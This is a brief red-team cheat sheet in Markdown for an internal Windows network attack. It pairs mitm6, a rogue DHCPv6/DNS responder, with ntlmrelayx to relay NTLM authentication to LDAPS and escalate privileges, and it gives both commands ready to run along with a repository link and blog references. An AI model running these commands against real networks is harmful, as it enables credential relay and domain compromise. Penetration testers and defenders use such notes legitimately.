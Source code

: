 # REDTEAM
## INTERNAL WINDOWS
### --> MITM ATTACKS
#### 1. *Mitm6 + NTLM RELAY*
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Description:** The attack enables to forge fake DNS Server, by replaying to DHCPv6 requests in internal network. The tool can be combined with ntlmrelay to further escalate privileges.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<br/><br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Repositry:** https://github.com/fox-it/mitm6<br/><br/>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</br>

Description | Commands
------------ | -------------
*First set up ntlmrelay* | `ntlmrelayx.py -6 -t ldaps://10.0.10.26 -wh <DOMAIN> -l loot`
*Start mitm6 on the same network that hosts in* | `mitm6.py -d <DOMAIN>`
</br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Blogs:**</br>

* https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
* https://medium.com/@browninfosecguy/ipv6-exploitation-in-ad-environment-b22a7c3ec8af
